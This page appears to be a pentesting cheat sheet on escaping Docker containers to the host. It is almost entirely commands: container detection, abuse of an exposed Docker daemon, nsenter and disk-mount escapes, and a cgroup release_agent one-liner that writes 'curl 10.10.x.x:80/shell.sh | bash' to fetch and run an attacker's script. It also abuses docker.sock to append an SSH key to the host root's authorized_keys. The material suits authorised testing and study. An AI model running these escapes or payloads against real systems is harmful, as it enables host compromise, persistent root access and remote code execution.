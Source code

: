 # 🐋 docker container escape

## Theory

Docker is an open-source containerization platform used for developing, deploying, and managing applications in lightweight virtualized environments called containers.

<figure><img src="https://user-images.githubusercontent.com/106917304/173188805-30523d98-d755-4b94-8740-7a929aa28d6b.png" alt=""><figcaption><p>Docker Architecture</p></figcaption></figure>

***

## Practical (Exploitation)

### Checking if we're in Container

1. **List running processes**

```
ps aux
```

{% hint style="info" %}
If there are few no. of process is running then you might be in docker.
{% endhint %}

2. **Look for docker.env file**

```
cd / && ls -lah
```

{% hint style="info" %}
If you see .dockerenv in base dir, then you’re in a container.
{% endhint %}

3. **Those pesky cgroups**

Navigating to “/proc/1” and then catting the “cgroups” file (cat cgroup).



**Use following code to Verify you are in Docker**

```
if [ -f /.dockerenv ]; then
 echo "I'm inside matrix ;(";
else
 echo "I'm living in real world!";
fi
```



### Docker Escaping Techniques

#### 1. Escape via Exposed Docker Daemon

Run the following cmd

If we’re in bash

```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

If we’re in alpine

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

You can see the images repo

```
docker images
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```

{% hint style="info" %}
NOTE: ubuntu:18.04 is the image repo
{% endhint %}



#### 2. Shared Namespaces

By using ps aux you can view the process with processID see pid 1 is running root it is the first one that executed when the system is booted.

Exploiting it with nsenter

```
nsenter --target 1 --mount sh
```



#### 3. Escape By Mounting File System

```
lsblk
mount /dev/sda2 /mnt
cd /mnt/root
```

{% hint style="info" %}
NOTE: In this case sda2 is the dir we mount. Might be different in your case
{% endhint %}



#### 4. Misconfigured Privileges

**list out all the capabilities**

```
capsh --print
capsh --print | grep sys_admin
```

{% hint style="info" %}
If we get sys\_admin capability, means the system is vuln.
{% endhint %}

**On attacker VM:**

First make a shell.sh and set python server and set listner.

**On target machine:**

```
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.x.x:80/shell.sh | bash' >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```



#### 5. Exploitation of docker.sock in /var/run or /run if you're ROOT

Check /var/run dir for docker.sock file, if it’s there and you’re root then you can exploit it. First see that you can use curl cmd, if not then wget static curl from your system for static curl see the arch of target machine and get the static curl from [Resource](https://github.com/moparisthebest/static-curl)

**STEP1:** Listing the images of the container of the host

```
./curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

**STEP2:** Now generate id\_rsa in your machine

```
ssh-keygen -t rsa
cat key.pub
```

**STEP3:** Creating a new docker container with image ID

```
./curl -X POST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/create -d '{"Detach":true,"AttachStdin":false,"AttachStdout":true,"AttachStderr":true,"Tty":false,"Image":"c3:latest","HostConfig":{"Binds": ["/:/var/tmp"]},"Cmd":["sh", "-c", "echo ssh-rsa AAAA..............xfoS+Yb2cW4y9cKcBWpVIiNMEtMX7sIB/0cKl8W/mY4u1UeRzWOoIIew6hqlaWCW6WKeSiCrNzEEj.........................P0/BMcKBS2pzqct2rTQ/LfFFM= root@kali >> /var/tmp/root/.ssh/authorized_keys"]}'
```

{% hint style="info" %}
NOTE: replace “c3:latest” with the docker image name that you’ll get from step1. eg: “RepoTags”:\[“c3:latest”]
{% endhint %}

Now you’ll see you created a docker and get the id. eg: {“Id”:”c19a25c6cc7245030bf9741d300f632cc7f1e5f12adad238edce23d387ba00c2”,”Warnings”:\[]}

**STEP4:** Now we gonna use the id and start the docker

```
./curl -X POST -H "Content-Type:application/json" --unix-socket /var/run/docker.sock http://localhost/containers/c19a25c6cc7245030bf9741d300f632cc7f1e5f12adad238edce23d387ba00c2/start
```

**STEP5:** Login SSH via your private key as user root and now you’re root

```
ssh -i key root@10.10.x.x
```





***

## REFERENCES

* [https://k4sth4.github.io/Docker-Escape/](https://k4sth4.github.io/Docker-Escape/)
* [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
* [https://youtu.be/\_dhONyAk4es](https://youtu.be/\_dhONyAk4es)
* [https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker)
* [https://blog.ropnop.com/docker-for-pentesters/](https://blog.ropnop.com/docker-for-pentesters/)
* [https://l3m0n.gitbook.io/pen-testing-book/container-pentesting/docker-pentesting](https://l3m0n.gitbook.io/pen-testing-book/container-pentesting/docker-pentesting)
